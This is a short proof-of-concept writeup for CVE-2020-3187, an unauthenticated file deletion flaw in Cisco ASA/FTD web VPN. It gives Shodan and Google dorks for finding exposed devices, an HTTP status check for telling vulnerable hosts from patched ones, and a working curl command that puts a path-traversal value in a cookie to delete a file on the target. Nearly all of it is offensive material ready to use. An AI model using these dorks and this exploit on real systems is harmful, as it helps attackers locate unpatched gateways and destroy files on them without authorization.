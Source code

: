 # CVE-2020-3187

## Unauthenticated arbitrary file deletion in Cisco ASA/FTD.

### TOOLS
```
Shodan dork: "set-cookie=webvpn"
Google: inurl:'/+CSOSCE+/'
```

## POC

````

/+CSCOE+/session_password.html -> 200  = Vulnerable
/+CSCOE+/session_password.html -> 404 = Patched

````

### Example to delete logo file "/+CSCOU+/csco_logo.gif".

curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html

## Reference

- https://twitter.com/aboul3la/status/1286809567989575685
- https://video.twimg.com/ext_tw_video/1286808440271183873/pu/vid/1270x720/8tccA2VgHV9TDtW4.mp4
